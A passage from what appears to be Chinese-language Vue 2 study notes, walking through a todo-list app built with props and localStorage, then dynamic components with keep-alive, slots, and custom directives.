  border: 1px solid #bd362f;
}

.btn-danger:hover {
  color: #fff;
  background-color: #bd362f;
}

.btn:focus {
  outline: none;
}

.todo-container {
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap {
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}

/*main*/
.todo-main {
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}

.todo-empty {
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>

~~~


myHeader.vue

~~~vue
<template>
  <div class="todo-header">
    <input type="text" placeholder="请输入你的任务名称，按回车键确认" />
  </div>
</template>

<script>
export default {
  name: 'myHeader',
}
</script>

<style scoped>
/*header*/
.todo-header input {
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}

.todo-header input:focus {
  outline: none;
  border-color: rgba(82, 168, 236, 0.8);
  box-shadow: inset 0 1px 1px rgba(0, 0, 0, 0.075), 0 0 8px rgba(82, 168, 236, 0.6);
}
</style>

~~~


myFooter.vue

~~~vue
<template>
  <div class="todo-footer">
    <label>
      <input type="checkbox" />
    </label>
    <span> <span>已完成0</span> / 全部2 </span>
    <button class="btn btn-danger">清除已完成任务</button>
  </div>
</template>

<script>
export default {
  name: 'myFooter',
}
</script>

<style scoped>
/*footer*/
.todo-footer {
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label {
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input {
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button {
  float: right;
  margin-top: 5px;
}
</style>

~~~


myList.vue

~~~vue
<template>
  <ul class="todo-main">
    <myItem></myItem>
    <myItem></myItem>
    <myItem></myItem>
    <myItem></myItem>
  </ul>
</template>

<script>
import myItem from './myItem.vue'

export default {
  name: 'List',
  components: {
    myItem,
  },
}
</script>

<style scoped>
/*main*/
.todo-main {
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}

.todo-empty {
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>

~~~


myItem.vue

~~~vue
<template>
  <li>
    <label>
      <input type="checkbox" />
      <span>xxxxx</span>
    </label>
    <button class="btn btn-danger" style="display: none">删除</button>
  </li>
</template>

<script>
export default {
  name: 'Item',
}
</script>

<style scoped>
/*item*/
li {
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label {
  float: left;
  cursor: pointer;
}

li label li input {
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:before {
  content: initial;
}

li:last-child {
  border-bottom: none;
}
</style>

~~~


## 2. 配置数据

在 myList 组件中传入数据（在 myList 组件中展示数据）

~~~js
data() {
    return {
        todos: [
            { id: '001', title: '抽烟', done: 'true' },
            { id: '002', title: '喝酒', done: 'false' },
            { id: '003', title: '烫头', done: 'true' },
            { id: '004', title: '开车', done: 'true' },
        ],
    }
},
~~~


遍历组件

~~~vue
<myItem v-for="item in todos" :key="item.id"></myItem>
~~~


传递数据给子组件

~~~vue
<myItem v-for="item in todos" :key="item.id" :item="item"></myItem>
~~~

> :item 是 props 属性， 后边的值是遍历项


子组件接受数据

~~~vue
<template>
<li>
    <label>
        <input type="checkbox" />
        <span>{{ item.title }}</span>
    </label>
    <button class="btn btn-danger" style="display: none">删除</button>
    </li>
</template>

<script>
    export default {
        name: 'Item',
        props: ['item'],
    }
</script>
~~~


关于 checked 属性

~~~vue
<input type="checkbox" :checked="item.done" />
~~~


## 3. 事件交互

- 获取输入框内容
  - add 方法
  - v-model 方法


add 方法：

~~~vue
<input type="text" placeholder="请输入你的任务名称，按回车键确认" @keyup.enter="add" />

~~~

~~~js
  methods: {
    add(e) {
        // 拿到的数据
      console.log(e.target.value)
    },
  },
}
~~~


v-model 方法

~~~vue
<input type="text" placeholder="请输入你的任务名称，按回车键确认" v-model="title" @keyup.enter="add" />

~~~


~~~js
  methods: {
    add() {
      console.log(this.title)
    },
  },
~~~


- 构建对象数据
  - id 值（Math.random(), Date.now(), uuid, nanoid）

~~~js
// 引入 nanoid （需要 npm install nanoid）
import { nanoid } from 'nanoid'
export default {
  name: 'myHeader',
  data() {
    return {
      title: '',
    }
  },
  methods: {
    add(e) {
      const todoObj = { id: nanoid(), title: e.target.value, done: false }
    },
  },
}
~~~


- myHeader 组件传值给 myList 中的 data，由于他们是兄弟组件，方法很多，如：
  - 全局事件总线
  - 消息订阅与发布
  - Vuex


这里使用最基本的 Vue 原生方法

由于 App.vue 可以通过 props 传值给任意子组件，可以把 myList 中的 data 放在 App.vue 中，然后通过 App.vue 组件把值利用 props 传递给 myList

~~~vue
<myList :todos="todos"></myList>
~~~


现在就实现了 App.vue 中的数据传递给了 myList.vue ，myList 通过遍历，再把数据传递给 myItem.vue 的过程。


再来讲一下myHeader 实现子传父功能

- 父向子传递方法，子调用父的方法，把值用参数形式传递过去


App.vue 中 methods 增加 receive 方法

~~~js
  methods: {
    receive(e) {
      console.log(e)
    },
  },
~~~


通过 props 方式，将这个方法传递给 myHeader 组件

~~~vue
<myHeader :receive="receive"></myHeader>

~~~


在 myList 组件中接受这个方法

~~~js
props: ['receive'],
~~~


然后我们在 add 方法中调用这个 receive 方法

~~~js
add(e) {
    const todoObj = { id: nanoid(), title: e.target.value, done: false }
    this.receive(todoObj)
},
~~~

> 因为 receive 是定义在 App.vue 组件中的，我们在 myList 组件中调用 receive()，就会通过传参的形式，把构建的对象传递给父组件中的 receive 方法。


App 组件将值添加到 data 中

~~~js
methods: {
    receive(e) {
        this.todos.unshift(e)
    },
},
~~~


更改所有方法，props 属性为 addTodo


- 修改 input 框输入完，清空输入框的问题

~~~js
add(e) {
    const todoObj = { id: nanoid(), title: e.target.value, done: false }
    this.addTodo(todoObj)
    e.target.value = ''
},
~~~


为了不直接操作 DOM 元素，我们还是切换成 v-model 模式

~~~vue
<input type="text" placeholder="请输入你的任务名称，按回车键确认" v-model="title" @keyup.enter="add" />

~~~


~~~js
add() {
    const todoObj = { id: nanoid(), title: this.title, done: false }
    this.addTodo(todoObj)
    this.title = ''
},
~~~


- 检测 input 输入框为空数据问题

~~~js
add() {
    // this.title.trim() 为空时，返回 false，取反
    if (!this.title.trim()) return alert('输入不能为空')
    const todoObj = { id: nanoid(), title: this.title, done: false }
    this.addTodo(todoObj)
    this.title = ''
},
~~~


## 4. 勾选状态

- 绑定事件在 checkbox 上，获取复选框 id
  - click 事件
  - change 事件

~~~vue
<input type="checkbox" :checked="item.done" @click="handleCheck(item.id)" />
<input type="checkbox" :checked="item.done" @change="handleCheck(item.id)" />
~~~


methods 定义方法：

~~~js
  methods: {
    handleCheck(id) {
      console.log(id)
    },
  },
~~~


- 由于数据在 App.vue 中，我们还是需要通过子向父传值的方式通知 App 组件，将 data 中的对应 id 的 done 值修改
  - 需要父组件传递一个函数给子组件（myItem 是孙组件）
  - App 传递函数给 myList，然后 myList 再传递给 myItem


父组件定义函数

~~~js
checkTodo(id) {
    this.todos.forEach((item) => {
        if (item.id == id) item.done = !item.done
    })
},
~~~


传递给 myList

~~~vue
<myList :todos="todos" :checkTodo="checkTodo"></myList>
~~~

> :属性名 = "函数名"


myList 接受函数，并传递给 myItem

~~~js
props: ['todos','checkTodo'],
~~~


~~~vue
<myItem v-for="item in todos" :key="item.id" :item="item" :checkTodo="checkTodo"></myItem>
~~~


myItem 接受函数，并在方法中回调 App.vue 传递过来的 checkTodo 函数

~~~js
export default {
  name: 'myItem',
  props: ['item', 'checkTodo'],
  methods: {
    handleCheck(id) {
      this.checkTodo(id)
    },
  },
}
~~~


- v-model 双向数据绑定

使用 v-model 也不用传值，方法什么的都不用定义了，因为 v-model 实现双向绑定，当用户点击 checkbox 改变状态，就会导致 data 中的数据也会随之变化。所以就不用我们传值了。

~~~vue
<input type="checkbox" v-model="item.done" />
~~~


- 不建议使用，因为修改了 props 属性
- vue 不报错是因为 props 中传递过来的是对象，而我们修改的是对象中的属性。指向不变，所以 Vue 不报错


## 5. 删除功能

- 设置 CSS 将删除按钮显示出来

~~~vue
<button class="btn btn-danger">删除</button>
~~~


~~~css
li button {
  float: right;
  display: none;
  margin-top: 3px;
}

li:hover {
  background: #ddd;
}

li:hover button {
  display: block;
}
~~~


- 点击删除按钮，显示 id 值

~~~vue
<button class="btn btn-danger" @click="handleDelete(item.id)">删除</button>
~~~


~~~js
handleDelete(id) {
    console.log(id)
},
~~~


- 和 checkbox 一样，子组件调用父组件方法，在 App 组件中删除指定 id 数据，App.vue 中定义函数

~~~js
deleteTodo(id) {
    // 返回一个新数组（id 值不相等的）
    this.todos = this.todos.filter((item) => item.id != id)
},
~~~


传递数据

~~~vue
<myList :todos="todos" :checkTodo="checkTodo" :deleteTodo="deleteTodo"></myList>
~~~


myList 利用 props 接受函数，然后传递函数给 myItem。

~~~js
props: ['todos', 'checkTodo', 'deleteTodo'],
~~~


~~~vue
<myItem v-for="item in todos" :key="item.id" :item="item" :checkTodo="checkTodo" :deleteTodo="deleteTodo"></myItem>
~~~


myItem 利用 props 接受函数，然后在方法中调用函数，传递 id 值给 App.vue

~~~js
props: ['todos', 'checkTodo', 'deleteTodo'],
~~~


~~~js
handleDelete(id) {
    this.deleteTodo(id)
},
~~~


- 点击删除前弹出提示，在 myItem 点击事件触发时做下判断

~~~js
handleDelete(id) {
    if (confirm('确定要删除该项吗？')) {
        this.deleteTodo(id)
    }
},
~~~


## 6. 统计标签

统计标签在 myFooter 组件上，需要统计 data 中的数据，所以我们需要把 todos 传递从 App 给 Footer

~~~vue
<myFooter :todos="todos"></myFooter>
~~~


myFooter.vue 用 props 接受数据

~~~js
props: ['todos'],
~~~


全部数量即是 todos 的数组长度

~~~vue
全部{{ todos.length }}
~~~


已完成则是统计 todos 中 item.done 为 true 的值的项，使用计算属性

- 遍历

~~~js
totalDone() {
    let i = 0
    this.todos.forEach((item) => {
        if (item.done == true) i++
    })
    return i
},
~~~


- reduce 方法

~~~js
computed: {
    totalDone() {
        return this.todos.reduce((pre, current) => pre + (current.done ? 1 : 0), 0)
    },
},
~~~


## 7. 全选框

- 判断是否全选，即 totalDone === todos.length


复选框绑定计算属性

~~~js
<input type="checkbox" :checked="isAll" />
~~~


计算属性返回布尔值

~~~js
isAll() {
    return this.totalDone === this.todos.length
},
~~~


完善小功能，当全选后，删除所有项目时，复选框还是勾选状态

~~~js
isAll() {
    return this.totalDone === this.todos.length && this.todos.length > 0
},
~~~


当没有任何项目时，统计按钮及删除所有按钮其实也不需要

~~~js
<div class="todo-footer" v-show="todos.length">
~~~


多次复用 todos.length，其实也可以把 todos.length 定义为一个计算属性，如：

~~~js
total() {
    return this.todos.length
},
~~~


- 全选/取消全选功能

首先需要获取单选框状态，在单选框上绑定方法

~~~vue
<input type="checkbox" :checked="isAll" @change="checkAll" />
~~~


定义方法

~~~js
methods: {
    checkAll(e) {
        console.log(e.target.checked)
    },
},
~~~


还是那一套，把全选框状态告诉 App 组件，App 组件将数组内所有项目的 done 值改为对应值

父组件定义方法，传递给 myFooter

~~~js
checkAllTodo(done) {
    this.todos.forEach((item) => {
        item.done = done
    })
},
~~~


~~~vue
<myFooter :todos="todos" :checkAllTodo="checkAllTodo"></myFooter>
~~~


myFooter 接受

~~~js
props: ['todos','checkAllTodo'],
~~~


调用方法

~~~js
methods: {
    checkAll(e) {
        this.checkAllTodo(e.target.checked)
    },
},
~~~


- v-model  实现全选框

~~~vue
<input type="checkbox" v-model="isAll" />
~~~

> 全选框勾选由 isAll 计算属性来控制，当 isAll 判断勾选项 === 所有项时，返回 true，v-model 会自动给标签添加 checked 属性。


但是这样做有一个 Bug ，点击全选框 console 会报错，这是因为我们使用了简写方式，只设置了计算属性中的 getter 方法，但是如果我们需要写入的话，还需要设置 setter。所以就需要计算属性的完整写法，如：

~~~json
isAll: {
    get() {
        return this.totalDone === this.todos.length && this.todos.length > 0
    },
    set(value) {
        this.checkAllTodo(value)
    },
},
~~~


## 8. 删除所有完成的项目

主要目的就是删除 App.vue 中所有 item.done 为 true 的项目，然后在 footer 中调用该方法即可

App 定义方法

~~~js
clearAllTodo() {
    this.todos = this.todos.filter((item) => {
        return item.done != true
    })
},
~~~


传函数给 myFooter

~~~vue
<myFooter :todos="todos" :checkAllTodo="checkAllTodo" :clearAllTodo="clearAllTodo"></myFooter>
~~~


myFooter 利用 props 接受函数

~~~js
props: ['todos', 'checkAllTodo', 'clearAllTodo'],
~~~


绑定事件

~~~vue
<button class="btn btn-danger" @click="clearAll">清除已完成任务</button>
~~~


在方法中调用传递过来的函数

~~~js
clearAll() {
    this.clearAllTodo()
},
~~~


## 9. 增加本地存储功能

watch 监视 todos，只要有人对数据进行操作，那么就将数据更新到 localStorage,

在 APP 组件中添加监视属性

~~~json
watch: {
    todos: {

        handler(value) {
            localStorage.setItem('todos', JSON.stringify(value))
        },
    },
},
~~~


- 初始化或重新载入页面后，发现 data 数据又会还原，这是因为初始化的时候，没有从 localStroage 中获取数据

~~~json
  data() {
    return {
      todos: JSON.parse(localStorage.getItem('todos')),
    }
  },
~~~


当清空 localStorage 时，留下空数据时，重新载入页面，会发现控制台报错

~~~
[Vue warn]: Error in render: "TypeError: Cannot read properties of null (reading 'length')"
~~~

这是因为是 data 中从 localStorage 拿到的是空数据，读取不存在的数据返回 null，造成一系列的数据传递，导致 todos.length 报错


解决方法是：

~~~js
data() {
    return {
        todos: JSON.parse(localStorage.getItem('todos')) || [],
    }
},
~~~


当选择 checkbox 时，发现 localStorage 没有更新 done 的值，这是因为监视属性只能发现浅层次的数据改变，而对象属性的改变并会被认为数据发生改变，所以我们给监视属性加上 deep 深度监视。

~~~js
watch: {
    todos: {
        deep: true,
            handler(value) {
            localStorage.setItem('todos', JSON.stringify(value))
        },
    },
},
~~~


# 动态组件 Component

vue 提供一个内置组件 component，专门用来实现动态组件的渲染


## 1. 引入动态组件

之前引入组件的方法是在父组件中用 import 方法引入组件，然后在 components 中注册组件，之后使用标签方法渲染组件，代码如下：

~~~vue
<template>
  <div class="app-container">
    <h1>App 根组件</h1>
    <hr />
    <div class="box">
      <Left></Left>
      <Right></Right>
    </div>
  </div>
</template>

<script>
import Left from '@/components/Left.vue'
import Right from '@/components/Right.vue'

export default {
  components:{
    Left,
    Right
  }
}
</script>

<style lang="less">
.app-container {
  padding: 1px 20px 20px;
  background-color: #efefef;
}
.box {
  display: flex;
}
</style>

~~~


我们可以通过 component 标签来渲染组件

~~~html
<component is="Left"></component>
<component is="Right"></component>
~~~


通过 component 标签，可以动态绑定组件，首先需要在 data 中定义一个组件名

~~~js
data(){
    return {
        comName:'Left'
    }
},
~~~


然后在 component 标签中用 v-bind 绑定这个属性

~~~js
<component :is="comName"></component>
~~~


## 2. 动态切换组件

通过改变 component 组件绑定的属性值，就可以动态切换组件了，如：

~~~html
<button @click="comName='Left'">显示 Left 组件</button>
<button @click="comName='Right'">显示 Right 组件</button>
~~~


## 3. keep-alive

当组件切换时，原来显示的组件就会被销毁，同时组件中 data 的值也会被清空，例：在 Left 组件中建立一个 count 数据，点击按钮自增 count 值

~~~vue
<template>
  <div class="left-container">
    <h3>Left 组件 ---- {{ count }} </h3>
    <hr />
    <button @click="count+=1">+1</button>
  </div>
</template>

<script>
export default {
  data(){
    return {
      count:0,
    }
  }
}
</script>

<style lang="less">
.left-container {
  padding: 0 20px 20px;
  background-color: orange;
  min-height: 250px;
  flex: 1;
}
</style>

~~~

> 当切换到 Right 组件时，count 值被清空，可以通过 created, destroyed 周期函数来查看 Left 组件是否被销毁与重新创建


使用 keep-alive 标签可以把内部的组件进行缓存，从而保存组件中的数据。

~~~html
      <keep-alive>
        <component :is="comName"></component>
      </keep-alive>
~~~

> 此时切换标签，则不会销毁原组件


## 4. keep-alive 对应生命周期函数

- 当组件被缓存时，会自动触发组件的 deactivated 生命周期函数
- 当组件被激活时，会自动触发组件的 activated 生命周期函数


~~~js
  created(){
    console.log('Left 组件被创建');
  },
  activated(){
    console.log('Left 组件被激活');
  },
  deactivated(){
    console.log('Left 组件被缓存');
  },
  destroyed(){
    console.log('Left 组件被销毁');
  }
~~~


## 5. keep-alive include 属性

并不是所有组件都需要被缓存，使用 include 属性可以指定那些需要被缓存的组件，如：

~~~html
      <keep-alive include="Left">
        <component :is="comName"></component>
      </keep-alive>
~~~


多个组件用逗号分隔

~~~html
      <keep-alive include="Left,Right">
        <component :is="comName"></component>
      </keep-alive>
~~~


或使用数组形式

~~~vue
<keep-alive :include="[Left,Right]">
~~~


## 6. keep-alive exclude 属性

exclude 属性指定那些不需要被缓存的组件，注意：include 与 exclude 不能同时使用

~~~html
      <keep-alive exclude="Right">
        <component :is="comName"></component>
      </keep-alive>
~~~


## 7. 组件 name 属性

当组件没有 name 属性时，父组件注册组件时的名称即是组件名

~~~html
  components: {
    Left,
    Right,
  },
~~~


当组件有 name 属性时，在 Vue dev-tool 中显示的则是组件名，并且在 keep-alive 标签 include 或 exclude 组件时，需要使用对应的组件名

~~~html
export default {
	name:myRight,
}
~~~


~~~html
<keep-alive include="myRight">
    <component :is="comName"></component>
</keep-alive>
~~~

> 在 data 中 comName 还是使用 components 里的注册名


- 组件的 ”注册名称“ 的主要应用场景是：以标签的形式，把注册号的组件，渲染和使用到页面结构之中
- 组件声明的时候 “name” 名称的主要应用场景：结合 `<keep-alive>` 标签实现组件缓存功能；以及在调试工具中看到组件的 name 名称


# 插槽

当一个组件需要被多次创建，并且只改变其中 data 内容时，我们可以使用到插槽，如我们需要实现这么一个界面：


或


> 如果用遍历加 v-show 判断的话，那么代码则会显得十分臃肿，并且有多少分类需要写多少个 v-show


插槽 （slot） 是 vue 为组件的封装者提供的工具。允许开发者在封装组件时，把不确定的、希望由用户指定的部分定义为插槽。如图：


简单来说就是一个组件已经被别人写好，用户可以直接通过标签+内容的方式让父组件向子组件指定位置插入 HTML 结构，也是一种组件间通信的方式，适用于父组件 => 子组件。


## 1. slot 默认插槽

在父组件调用子组件时，使用子组件标签渲染到页面，将自定义内容放在子组件标签内，如：

~~~html
<Left>
    <p>这是一个自定义内容</p>
</Left>
~~~

 

在子组件中使用 slot 标签做定位

~~~html
<slot></slot>
~~~

> 使组件标签中的内容显示在 slot 插槽占位中


关于样式：插槽中使用的内容样式，既可以定义在父组件中，也可以定义在插槽子组件中

> 父组件会将内容解析完毕后然后传递给插槽，所以无论样式写在哪里都可以生效


## 2. v-slot 具名插槽

官方建议，每一个 slot 插槽，都要有一个 name 属性，如果省略，则默认为 default

~~~html
<slot name="default"></slot>
~~~


组件标签中的内容，默认会填充到 default 标签的插槽中，如：

~~~
<Left>
    <p>这是一个自定义内容</p>
</Left>
~~~


### 2.1 slot 属性（已被废弃）

如果想将标签中内容放入指定插槽中，可以使用 slot 属性，如：


组件

~~~vue
<div>
    <h3>标题</h3>
    <slot name="center"></slot>
    <hr/>
    <slot name="footer"></slot>
</div>
~~~


App 父组件插入自定义数据

~~~vue
<Category>
    <video slot="center" src=""></video>
    <a slot="footer" href="#">链接</a>
    <a slot="footer" href="#">链接</a>    
</Category>
~~~

> 在插入节点可以追加插入


### 2.2 v-slot 指令

tempalte 是一个虚拟标签，起到占位作用，但是不会渲染为实际的 HTML 元素，即页面中不会出现 template 标签，在 template 中可以使用 v-slot 指令，v-slot 只能在 template 中使用

~~~html
<Left>
    <template v-slot:default>
        <p>这是一个插槽</p>
    </template>
</Left>
~~~


v-slot 简写形式是 #

~~~html
<Left>
    <template #default>
        <p>这是一个插槽</p>
    </template>
</Left>
~~~


## 3. slot 默认内容

当标签没有传递内容时，slot 可以填充默认内容，官方称为后备内容，如：


Left 标签没有传递任何内容

~~~html
<Left></Left>
~~~


默认插槽会显示默认内容

~~~html
<slot name="default">
	<p>
    	这是默认内容
    </p>
</slot>
~~~


如果 Left 标签传递了内容，则默认内容会被替换

~~~html
<Left>
    <template #default>
        <p>这是一个插槽</p>
    </template>
</Left>
~~~


## 案例：封装插槽

制作一个 Article.vue 封装插槽，可以让用户将指定内容传递到指定插槽中

~~~vue
<template>
  <div class="article-container">
      <div class="header-box">
          <slot name="header"></slot>
      </div>
      <div class="content-box">
          <slot name="content"></slot>
      </div>
      <div class="footer-box">
          <slot name="footer"></slot>

      </div>
  </div>
</template>

<script>
export default {
    name:"Article"
}
</script>

<style lang="less" scoped>
.article-container {
    >div {
        min-height: 200px;
    }
    .header-box {
        background-color: pink;
    }
    .content-box {
        background-color: lightblue;
    }
    .footer-box {
        background-color: lightgreen;
    }
}

</style>
~~~


App.vue 引入组件，注册组件，并且对指定插槽传递对应内容

~~~vue
<template>
  <div class="app-container">
    <h1>App 根组件</h1>
    <hr />
    <Article>
      <template #header>
        <p>文章标题</p>
      </template>
      <template #content>
        <p>文章内容</p>
      </template>
      <template #footer>
        <p>文章尾部</p>
      </template>
    </Article>
  </div>
</template>

<script>
import Article from "@/components/Article";

export default {
  components: {
    Article,
  },
};
</script>

<style lang="less">
.app-container {
  padding: 1px 20px 20px;
  background-color: #efefef;
}
.box {
  display: flex;
}
</style>

~~~


## 4. 作用域插槽

在封装组件时，为预留的 slot 提供属性对应的值，这种用法叫做作用域插槽，数据在组件的自身，但根据数据生成的结构需要组件的使用者来决定。

实现方法：子组件插槽中自定义属性，在父组件中填充插槽内容时可以读取插槽中的自定义属性。


### 4.1 默认作用域插槽

Article

~~~html
<slot msg="hello world"></slot>
~~~


App.vue

~~~vue
<template scope="msg">
    <p>文章内容</p>
    <p>{{msg}}</p>
</template>
~~~

> 接受值相当于一个形参，可以是任何字符，一般用 scope


新的 API

~~~vue
<template slot-scope="msg">
    <p>文章内容</p>
    <p>{{msg}}</p>
</template>
~~~


msg 内容则是一个键值对象

~~~json
{ "msg": "hello world" }
~~~


### 4.2 具名作用域插槽

Article

~~~html
<slot name="content" msg="hello world"></slot>
~~~


App.vue（ slot 已废弃）

~~~vue
<template scpoe="msg" slot="content">
    <p>文章内容</p>
    <p>{{msg}}</p>
</template>
~~~


App.vue

~~~vue
<template v-slot:content="msg">
    <p>文章内容</p>
    <p>{{msg}}</p>
</template>
~~~


简写形式

~~~html
<template #content="msg">
    <p>文章内容</p>
    <p>{{msg}}</p>
</template>
~~~


## 5. 作用域插槽的动态属性

通过给插槽绑定属性值可以传递给父组件，除了固定值外，也可以将插槽组件中的 data 属性绑定在插槽上，如：

~~~html
<slot name="content" msg="hello world" :userinfo="user"></slot>
~~~

> userinfo 为自定义属性值


在 data 中定义属性

~~~html
<script>
export default {
  name: "Article",
  data() {
    return {
      user: {
        name: "张三",
        age: 18,
      },
    };
  },
};
</script>
~~~


父组件接受传值

~~~html
<template #content="scope">
    <p>文章内容</p>
    <p>{{scope}}</p>
</template>
~~~


此时父组件接受的值为

~~~html
{ "msg": "hello world", "userinfo": { "name": "张三", "age": 18 } }
~~~


通过对象解构，我们可以直接获取指定值

~~~html
<template #content="{msg, userinfo}">
    <p>文章内容</p>
    <p>{{msg}}</p>
    <p>{{userinfo}}</p>
    <p>{{userinfo.name}}</p>
</template>
~~~


显示数据为

~~~
hello world

{ "name": "张三", "age": 18 }

张三
~~~


## 案例：作用域插槽应用场景

### 1. 初始化

App.vue 组件

~~~vue
<template>
  <div>
    <Category></Category>
    <Category></Category>
    <Category></Category>
  </div>
</template>

<script>
import Category from './components/Category'
export default {
  components: {
    Category,
  },
}
</script>
~~~


Category.vue 组件

~~~vue
<template>
  <div>
    <h3>分类</h3>
    <ul>
      <li v-for="(game, index) in games" :key="index">{{ game }}</li>
    </ul>
  </div>
</template>

<script>
export default {
  data() {
    return {
      games: ['魂斗罗', '超级玛丽', '英雄联盟', '绝地求生'],
    }
  },
}
</script>
~~~


调用了三次组件标签，现在需求是这样的，第一个组件用 ul 列表，第二个组件用 ol 列表，第三个组件用 h4 标签，那么就需要用到插槽，把结构提取到 App 组件中。

~~~vue
<template>
  <div>
    <Category>
      <template>
        <ul>
          <li v-for="(game, index) in games" :key="index">{{ game }}</li>
        </ul>
      </template>
    </Category>
    <Category>
      <template>
        <ol>
          <li v-for="(game, index) in games" :key="index">{{ game }}</li>
        </ol>
      </template>
    </Category>
    <Category>
      <template>
        <h4 v-for="(game, index) in games" :key="index">{{ game }}</h4>
      </template>
    </Category>
  </div>
</template>
~~~

> 这样做的后果就是报错，因为 games 这个数据是在 List 组件中


子组件插槽定义属性，使用 v-bind 绑定 data 中的数据

~~~vue
<template>
  <div>
    <h3>分类</h3>
    <slot :games="games"></slot>
  </div>
</template>
~~~


通过子组件插槽中传递的属性，父组件才可以遍历数据

~~~vue
<template>
  <div>
    <Category>
      <!-- 接受子组件传值 -->
      <template scope="gameList">
        <ul>
          <li v-for="(game, index) in gameList.games" :key="index">{{ game }}</li>
        </ul>
      </template>
    </Category>
    <Category>
      <!-- 使用解构，直接拿出 games 对象 -->
      <template scope="{games}">
        <ol>
          <li v-for="(game, index) in games" :key="index">{{ game }}</li>
        </ol>
      </template>
    </Category>
    <Category>
      <!-- 新的 API  -->
      <template slot-scope="{ games }">
        <h4 v-for="(game, index) in games" :key="index">{{ game }}</h4>
      </template>
    </Category>
  </div>
</template>
~~~


## 案例：Counter 组件重构


# 自定义指令

vue 官方提供了很多指令，如 v-if, v-text, v-for, v-bind, v-model 等等，除此之外 vue 还允许开发者自定义指令。


自定义指令分为两种：

- 私有自定义指令
- 全局自定义指令


## 1. 私有自定义指令

### 1.1 bind

在每个 vue 组件中，可以在 directives 节点下声明私有自定义指令。示例代码如下：

~~~js
// 私有自定义指令的节点
directives：{
    // 定义名为 color 的指令，指向一个配置对象
    color:{
        // 当指令第一次被绑定到元素上的时候，会立即触发 bind 函数
        // 形参中的 el 是绑定了此指令的、原生的 DOM 对象
        bind(el) {
            // 为绑定到的 HTML 元素设置红色的文字
            el.style.color = 'red'
        }
    }
}
~~~

> 定义的时候不需要添加 v- 前缀，只需要指令明即可，即：color


使用自定义指令

~~~html
<h1 v-color>App 根组件</h1>
~~~


### 1.2. 指令传值

当需要给指令传参时，可以给指令赋值

~~~html
<h1 v-color="color">App 根组件</h1>
~~~


在 data 属性定义 color 的值

~~~js
  data() {
    return {
      color:'blue',
    };
  },
~~~


通过 bind 函数中的形参 binding 来拿到值，binding 是一个对象


通过 binding 的 value 值获取传递过来的参数

~~~js
  directives: {
    color: {
        // binding 则是传过来的对象
      bind(el,binding) {
        el.style.color = binding.value;
      },
    },
  },
~~~


如果想在自定义指令中直接赋值，则需要使用单引号

~~~html
<h1 v-color="'red'">App 根组件</h1>
~~~

> 相当于 binding.value = 'red'


### 1.3. update

bind 函数只在被绑定的元素上生效一次，如果用户期间改变了自定义指令传值，如改变 color 值，bind 不会再次触发，如添加一个 Button

~~~html
<button @click="color='green'">改变 Color 的颜色</button>
~~~

> 虽然 data 中的 color 值变了，但是 v-color 指令并没有再次被触发


update 函数会在每次 DOM 更新时被调用，如：

~~~js
directives: {
    color: {
      bind(el,binding) {
        el.style.color = binding.value;
      },
          // 只在 DOM 更新时，会触发 update 函数
      update(el,binding){
        el.style.color = binding.value;
      }
    },
  },
~~~


### 1.4 inserted

指令所在元素被插入页面时调用


比如，创建一个 v-fbind 指令，绑定在 input 元素上，需求是当页面刷新时，显示 data 内容并自动获取焦点，如果只使用 bind 函数的话，那么 focus() 函数不会起作用，原因是 bind 只负责绑定，而 focus() 这个方法必须是插入模板后才会生效，如果也写在 bind() 中，则不会生效，需要使用 inserted 方法才可以调用。

~~~html
<div id="app">
    <input type="text" v-fbind="n" />
</div>

<script>
    const vm = new Vue({
        el: '#app',
        data: {
            n: '同学你好',
        },
        directives: {
            fbind: {
                bind(el, binding) {
                    console.log(binding)
                    el.value = binding.value
                },
                inserted(el) {
                    el.focus()
                },
            },
        },
    })
</script>
~~~


## 4. 函数简写

如果 bind 和 update 函数中的逻辑完全相同，则对象格式的自定义指令可以简写成函数格式

~~~js
directives: {
    // 在 bind 和 update 时会触发相同逻辑
    color(el,binding) {
        el.style.color = binding.value;
    },
},

~~~


## 5. 全局自定义指令

全局共享的自定义指令在 main.js 定义，可以在任意组件中使用，需要通过 Vue.directive() 进行声明，示例代码如下：

~~~js
// 参数1：字符串，表示全局自定义指令的名字
// 参数2：回调函数
Vue.directive('color', function(el, binding){
    el.style.color = binding.value
})
~~~


或者用配置项

~~~js
// 参数1：字符串，表示全局自定义指令的名字
// 参数2：对象，用来接受指令参数值
Vue.directive('color', {
    bind(el,binding){
        el.style.color = binding.value
    },
    update(el,binding){
        el.style.color = binding.value
    }
})
~~~


## 6. 指令名的问题

如果自定义指令使用了小驼峰命名，如：

~~~html
<h3 v-bigNum="n"></h3>
~~~


那么在定义自定义指令的时候，则需要改成全部小写，如：

~~~js
bignum(el,binding){
    ...
}
~~~


如果自定义指令使用了 `-` 连接符，自定义指令时，

~~~html
<h3 v-big-num="n"></h3>
~~~


需要按照 key: value 的形式定义属性和值，如：

~~~js
directives:{
    'big-number':function(el, binding){
        ...
    }
}
~~~


简写形式：

~~~js
directives:{
    'big-number'(el, binding){
        ...
    }
}
~~~


## 7. 自定义指令中的 this

在自定指令中 bind, inserted, update 函数中的 this 都指向 Window，而不是指向 Vue 实例


~~~js
directives:{
    'big-number'(el, binding){
        console.log(this)
    }
}
~~~


# ESLint Vue 项目

## 0. 准备工作

在 VSCode 设置中

- 调整 Tab 缩进为2个空格
- 调整 Format on Save


## 1. 创建项目

使用 vue create 创建新的项目

~~~
vue create demo-3
~~~


选择手动创建


勾选 CSS 预处理


